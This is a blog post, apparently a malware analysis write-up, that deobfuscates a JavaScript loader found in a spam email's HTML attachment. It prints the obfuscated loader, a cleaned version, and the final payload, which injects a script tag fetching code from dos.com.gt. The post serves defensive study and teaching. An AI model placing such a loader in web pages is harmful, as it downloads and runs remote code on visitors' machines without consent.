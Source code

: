 ```yaml
---
layout: '../../layouts/BlogPost.astro'
title: Deobfuscating a simple html malware loader
subtitle: 
publishDate: 2023-03-14
description: 
tags: ['obfuscation', 'web', 'malware']
permalink: https://halb.it/posts/html-loader-deobfuscation/
---
```


Recently I got my hands on a malicious spam email that contained an HTML attachment with the following script:

```js
function a0uqiiqu(){var tvtetaepmuol=['124DmjXwe','src','https://dos.com','512295URcyIF','750664RVFSzX',
'36WPNViT','34947uflpIw','59941oAwubn','createElement','1934810DDyBir','47565AALipC','1944VdGjMp',
'.gt/udu/udu.js?','script','12gOlcLD','200pNfvmM','3438gqVBAW'];a0uqiiqu=function(){return tvtetaepmuol;};
return a0uqiiqu();}var a0tauiqnasu=a0ouetecdcnseettrulcs;(function(uegtaapfalc,ipartuuqsrnae){
var umuqirae=a0ouetecdcnseettrulcs,eedxpatuti=uegtaapfalc();while(!![]){try{var lucesdeteds=-parseInt(
umuqirae(0xe9))/0x1*(parseInt(umuqirae(0xe8))/0x2)+-parseInt(umuqirae(0xed))/0x3+parseInt(umuqirae(0xea)
)/0x4*(-parseInt(umuqirae(0xe3))/0x5)+parseInt(umuqirae(0xe7))/0x6*(-parseInt(umuqirae(0xf1))/0x7)+-
parseInt(umuqirae(0xee))/0x8*(-parseInt(umuqirae(0xef))/0x9)+parseInt(umuqirae(0xf3))/0xa+parseInt(
umuqirae(0xf0))/0xb*(parseInt(umuqirae(0xe4))/0xc);if(lucesdeteds===ipartuuqsrnae)break;else eedxpatuti[
'push'](eedxpatuti['shift']());}catch(ieitmuosrseubp){eedxpatuti['push'](eedxpatuti['shift']());}}}(
a0uqiiqu,0x3eb7d));var incidunt=document[a0tauiqnasu(0xf2)](a0tauiqnasu(0xe6));function 
a0ouetecdcnseettrulcs(uqiiqu,ouetecdcnseettrulcs){var uegtaapfalc=a0uqiiqu();return a0ouetecdcnseettrulcs=
function(ipartuuqsrnae,eedxpatuti){ipartuuqsrnae=ipartuuqsrnae-0xe3;var lucesdeteds=uegtaapfalc[
ipartuuqsrnae];return lucesdeteds;},a0ouetecdcnseettrulcs(uqiiqu,ouetecdcnseettrulcs);}incidunt[a0tauiqnasu(
0xeb)]=a0tauiqnasu(0xec)+a0tauiqnasu(0xe5)+'83642',document['head']['appendChild'](incidunt);

```

It is a simple loader that downloads and runs an external script from the internet.<br/>
The obfuscation is not sophisticated since it's only there to avoid automated analysis, so despite the scary look, the code is pretty simple to understand.

After formatting everything and renaming some variables, we obtain this code:

```js
function getStrArray() {
  return ["124DmjXwe", "src", "https://dos.com", "512295URcyIF", "750664RVFSzX", "36WPNViT", "34947uflpIw", "59941oAwubn", "createElement", "1934810DDyBir", "47565AALipC", "1944VdGjMp", ".gt/udu/udu.js?", "script", "12gOlcLD", "200pNfvmM", "3438gqVBAW"];
}
function getStrArrayElement(param1, unused_param2) {
    var strArray = getStrArray();
    param1 = param1 - 227;
    return strArray[param1];
}



(function scramble_str_array(getStrArray, hardcodedInteger) {
  var umuqirae = getStrArrayElement, eedxpatuti = getStrArray();
  while (true) {
    try {
      var lucesdeteds = -parseInt(umuqirae(233)) / 1 * (parseInt(umuqirae(232)) / 2) + -parseInt(umuqirae(237)) / 3 + parseInt(umuqirae(234)) / 4 * (-parseInt(umuqirae(227)) / 5) + parseInt(umuqirae(231)) / 6 * (-parseInt(umuqirae(241)) / 7) + -parseInt(umuqirae(238)) / 8 * (-parseInt(umuqirae(239)) / 9) + parseInt(umuqirae(243)) / 10 + parseInt(umuqirae(240)) / 11 * (parseInt(umuqirae(228)) / 12);
      if (lucesdeteds === hardcodedInteger) break; else eedxpatuti.push(eedxpatuti.shift());
    } catch (ieitmuosrseubp) {
      eedxpatuti.push(eedxpatuti.shift());
    }
  }
}(getStrArray, 256893));



var incidunt = document[getStrArrayElement(242)](getStrArrayElement(230));
incidunt[getStrArrayElement(235)] = getStrArrayElement(236) + getStrArrayElement(229) + "83642", document.head.appendChild(incidunt);
```

Lets break it down:

- The first block defines an array of strings

- In the second block a mysterious algorithm inside an infinite loop scrambles the content of the array

- In the final block the actual payload is defined using strings from the scrambled array


The scrambler algorithm looks pretty complicated. Luckily, we don't have to understand it. Instead, we can use an old trick and replace the code payload with a string:

```js
var deobfuscated_payload_str = `
  var incidunt = document[${getStrArrayElement(242)}](${getStrArrayElement(230)});

  incidunt[${getStrArrayElement(235)}] = ${getStrArrayElement(236)} + ${getStrArrayElement(229)} + "83642",
    document.head.appendChild(incidunt);
`

console.log(deobfuscated_payload_str)

```

Now we can safely run the script. Instead of executing its malicious payload, it will kindly print it to us:

```js
var incidunt = document["createElement"]("script");

incidunt["src"] = "https://dos.com" + ".gt/udu/udu.js?" + "83642",
  document.head.appendChild(incidunt);
```

This is the code that the obfuscation was hiding. As we expected it's not particularly exciting.
More so, the payload it's trying to load does not exist anymore on that url, so our research 
on that side ends here.

If you are familiar with javascript obfuscation, you might have recognized all this 
as the work of [obfuscator.io](https://obfuscator.io), the most popuar public js obfuscation service.

This service is so popular that there are several deobfuscators that have been developed over the years, like 
https://github.com/j4k0xb/webcrack or
https://github.com/ben-sb/obfuscator-io-deobfuscator

Both these services provide a web gui where you can paste the obfuscated code to see the original. If we paste
our obfuscated code in [webcrack.netlify.app](https://webcrack.netlify.app) for example, this is the result:

```js
var incidunt = document.createElement("script");
incidunt.src = "https://dos.com.gt/udu/udu.js?83642";
document.head.appendChild(incidunt);
```




